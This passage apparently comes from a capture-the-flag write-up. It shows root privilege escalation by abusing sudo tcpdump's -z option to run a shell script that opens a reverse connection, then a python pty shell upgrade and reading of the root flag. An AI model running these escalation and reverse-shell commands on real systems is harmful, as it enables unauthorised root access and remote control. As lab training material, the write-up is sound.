 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674002634_image.png)


next, move to the `sudo tcpdump`

    sudo tcpdump -ln -w /dev/null -W 1 -G 1 -z /dev/shm/shell.sh -Z root 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674054625_image.png)


resulting in an execution of our `shell.sh` and a reverse connection.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674092092_image.png)


we have achieved root!

**Phase 4 | Maintaining Access**
Maintaining access requires taking the steps involved in being able to be persistently within the target environment in order to gather as much data as possible. The attacker must remain stealthy in this phase, so as to not get caught while using the host environment.

upgrading shell and searching for flag:

    python -c 'import pty; pty.spawn("/bin/bash")'
    cat /root/flag.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674161326_image.png)


bring me the root!

-exec
